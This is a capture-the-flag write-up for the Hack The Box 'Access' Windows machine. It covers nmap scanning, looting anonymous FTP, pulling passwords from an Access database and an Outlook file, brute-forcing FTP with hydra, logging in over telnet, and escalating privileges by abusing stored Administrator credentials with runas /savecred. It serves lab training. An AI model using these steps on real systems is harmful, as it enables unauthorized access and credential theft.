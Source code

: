 # Hackthebox - Access - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -A -p- 10.10.10.98
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 15:34 EDT
Nmap scan report for 10.10.10.98
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   28.67 ms 10.10.14.1
2   28.88 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 275.90 seconds
```

## Initial foothold

### FTP

- We know with nmap that anonymous login is allowed. Let's have a look  
![image](https://user-images.githubusercontent.com/96747355/162515557-fc8e6499-c11e-4830-9100-1358fe6ae36b.png)  
- We take all the files in our attacking machine using `get`
- We have an mdb file which is a microsoft access database file, we can open it using this [website](https://www.mdbopener.com/) we also could have used `mdb-sql`
  - Theres a lot of tables however only some of them have rows
  - The one called USERINFO contains name and password, let's get the csv version of this table 
  - This definitely looks like a db for hr management
  - Another one called auth_user also has password so we take the csv as well
  - Using `awk we have a better view of our users in USERINFO even though I think the most useful file will be the other, let's still keep this aside all cleaned up with awk  
![image](https://user-images.githubusercontent.com/96747355/162520337-ed31f983-f9ad-4bf7-98df-e9d241b9671b.png)  
  - I put it in a file called userinfoclean `cat USERINFO.csv | awk -F "," '{print $25, $46, $86}' > userinfoclean`
  - For the other file `auth_user.csv` let's keep the usernames in a file called users `cat auth_user.csv | awk -F "," '{print $2}' > users` , I cleaned it a little removing the title of column and the quotes
  - And let's do the same for the pass except that we do not need admin 2 times in it so we remove also one, so it should look like this  
  ![image](https://user-images.githubusercontent.com/96747355/162522690-57cd33cb-c155-4f54-9fb4-704c14b81757.png)  

### Telnet

- We have a telnet port open
- if we use `admin` as login we get a mention that the user does not exist
- If we use `engineer` as login we then get prompt for the password (which means our user is valid), and if we type `admin` we have the handle is invalide but if we type `access4u@security` we get access denied, which means that our user pass combinaison is correct
  - Let's keep it aside `engineer` `access4u@security`

### Port 80

- We land on this page  
![image](https://user-images.githubusercontent.com/96747355/162525231-262bc255-b79d-4565-92e8-9bc81e14a132.png)  
- Let's run gobuster here (we do not get anything)

### FTP

- Let's try to bruteforce ftp with the discovered users `hydra -L users -P pass 10.10.10.98 -t 4 ftp`
- We do not get anything

### Zip file

- Let's try to unzip the password protected zip we found, as it is aes encrypted `unzip` wont work but `7z x` will work:  
![image](https://user-images.githubusercontent.com/96747355/162529730-15ae60e1-d8bd-4f41-a542-e4c7b97d5a25.png)  
- We get an Outlook email folder: 
```
┌──(root💀kali)-[~/Documents/hackthebox/access]
└─# file Access\ Control.pst 
Access Control.pst: Microsoft Outlook email folder (>=2003)
```
- We can read this file on linux using `readpst Access\ Control.pst` (`apt install readpst` to install it), here is what we get in the email, another Password!!

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,

John
```
- Let's add these to our files

### Telnet again

- With the new user discovered we are able to connect to the telnet port  
![image](https://user-images.githubusercontent.com/96747355/162533460-4fcc793e-48b7-4edc-a410-fa6115e69af7.png)  
- We can grab the user flag on the desktop


## Privilege escalation

```
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
- We are going to be able to run commands as administrator (just like sudo in linux)
- Let's grab the root flag like this: `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"` and then it will be in our current user's desktop
- Have a look at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas) to see how else we could use runas

